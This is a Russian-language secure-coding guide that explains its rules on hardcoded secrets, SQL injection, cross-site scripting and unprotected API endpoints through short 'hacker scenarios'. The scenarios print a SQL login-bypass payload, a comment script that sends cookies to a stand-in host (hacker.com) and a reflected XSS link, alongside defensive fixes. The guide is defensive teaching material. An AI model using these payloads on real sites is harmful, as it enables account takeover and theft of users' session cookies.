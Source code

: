 # Объяснение Руководства по Безопасности VibeCoding: Почему Мы Так Настаиваем?

Этот документ объясняет важность каждого правила в "Руководстве по Безопасности". Понимание этого поможет вам увидеть ваш код "глазами хакера" и предотвратить проблемы до их возникновения.

---

## ⭐ Золотые Правила

### 【Никогда не вшивать секреты в код】 & 【Использовать переменные окружения】 & 【Игнорировать секретные файлы】

**Почему это важно?**

Эти три правила являются высшими законами выживания в цифровом мире. Ваш код (особенно при использовании Git) будет копироваться, распространяться и храниться во множестве мест. Запись паролей, API-ключей и других "секретов" прямо в код подобна татуировке пароля от сейфа на лбу - любой, кто увидит вас (увидит код), может легко открыть ваш сейф.

**Сценарий Хакера 😈**
> Я обожаю искать `password`, `api_key` или `db_connect` на GitHub. Я нашел ваш публичный проект и в файле под названием `config.js` увидел этот код: `const db_password = 'Password123!';`. Отлично! Мне даже не нужно атаковать ваш сайт - теперь я могу попробовать подключиться к вашей базе данных напрямую с этим паролем.

**Катастрофические Последствия 💥**

**Полное захват контроля над сервисом.** Хакеры могут украсть, изменить, удалить все данные ваших пользователей или использовать ваши платные API-сервисы для незаконной деятельности, при этом все счета будут на вас.

---

## 📥 Обработка Пользовательского Ввода

### 【Предотвращать SQL-инъекции】

**Почему это важно?**

Представьте базу данных как робота, который понимает только язык SQL. Если вы напрямую конкатенируете пользовательский ввод с вашими командами, пользователи получают возможность произносить свои собственные "команды". Параметризованные запросы говорят роботу: "Слушай, следующая часть это **просто данные** - что бы ни было в содержимом, не выполняй это как команды."

**Сценарий Хакера 😈**
> В поле входа на вашем сайте я ввел `' OR '1'='1' --` как имя пользователя. Предполагаю, что ваш SQL-запрос написан так: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Мой ввод превратил его в `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` всегда истинно, поэтому я обошел проверку пароля и успешно вошел в первую учетную запись пользователя (обычно администратор).

**Катастрофические Последствия 💥**

Злоумышленники могут обойти авторизацию, украсть все данные из базы (списки пользователей, хеши паролей) или даже удалить базу данных.

### 【Предотвращение атак межсайтового скриптинга (XSS)】

**Почему это важно?**

Если ваш веб-сайт как зеркало, которое напрямую отражает содержимое пользовательского ввода, то пользователи могут встраивать вредоносные JavaScript скрипты в контент. Когда другие пользователи просматривают этот контент, вредоносный скрипт будет выполняться в их браузерах, крадя их информацию. HTML-кодирование сущностей преобразует специальные символы во вредоносных скриптах (такие как `<`, `>`) в безопасный простой текст, делая их невыполнимыми.

**Сценарий Хакера 😈**
> Я оставил комментарий в разделе комментариев вашей статьи: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Этот текст был сохранен в базе данных как есть. Теперь любой пользователь, читающий этот комментарий, автоматически выполнит этот скрипт в своем браузере, отправляющий их cookies авторизации на мой сервер. С помощью cookies я могу выдавать себя за них для входа на веб-сайт.

**Продвинутый Метод Атаки: Как Код Пользователя А Может Украсть Данные Пользователя Б?**

Многие люди задаются вопросом: "Злоумышленник не изменил мой веб-сайт, так как он может украсть данные других пользователей?" Позвольте объяснить это на полном примере:

1. **Злоумышленник А создает вредоносную ссылку**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **Злоумышленник обманывает жертву Б через социальную инженерию**
   - Email: "Посмотрите на фантастическую работу этого фотографа!"
   - Посты в соцсетях, комментарии на форумах и т.д.

3. **Что происходит, когда жертва Б кликает по ссылке?**
   ```php
   // Ваш код (уязвимый)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Фактический вывод в браузер Б
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Почему они могут украсть данные Б?**
   - Б уже авторизован на вашем веб-сайте
   - Вредоносный скрипт выполняется под **вашим доменом**, поэтому он может:
     - Читать cookies Б (данные авторизации)
     - Получать доступ к localStorage Б
     - Делать запросы от имени Б
     - Изменять содержимое страницы (например, поддельные формы входа)

**Простая Аналогия**
Представьте, что ваш веб-сайт - это банк:
- Злоумышленник А размещает "поддельный бланк снятия средств" (вредоносный скрипт) в банковском холле
- Клиент Б думает, что это законно, и вводит свой пароль
- А получает пароль Б

XSS позволяет злоумышленникам размещать "поддельные бланки снятия средств" (вредоносный код) в вашем "банковском холле" (веб-сайте).

Вот почему вы должны использовать `htmlspecialchars()` - это гарантирует, что весь пользовательский ввод отображается как простой текст, а не как исполняемый код.

**Катастрофические Последствия 💥**

Массовая кража пользовательских аккаунтов, утечка персональных данных, веб-сайты заражаются фишинговым контентом или майнинговыми скриптами.

---

## 🔐 Разрешения и Аутентификация

### 【Защита API-эндпоинтов】

**Почему это важно?**

Интерфейсы frontend (UI) могут скрывать кнопки, но хакеры никогда не полагаются на интерфейсы. Они вызывают ваши backend API напрямую с помощью инструментов (таких как Postman, curl). Вы должны предполагать, что каждый API-эндпоинт будет атакован напрямую, поэтому каждый эндпоинт должен быть независимым охранником, самостоятельно проверяющим личность и разрешения посетителей.

**Сценарий Хакера 😈**
> Я обнаружил, что для изменения личной информации frontend отправляет запрос к `/api/user/update`. Хотя я не могу видеть кнопки редактирования других людей, предполагаю, что этот API различает пользователей через `userId`. Я попробовал отправить запрос к `/api/user/update?userId=1` (ID администратора) с данными, которые хотел изменить. Боже мой, сервер не проверил, исходил ли запрос от меня лично, и успешно изменил email администратора!

**Катастрофические Последствия 💥**

Обычные пользователи могут изменять данные других пользователей или даже администраторов, или выполнять разрешения, которых у них не должно быть, вызывая системный хаос.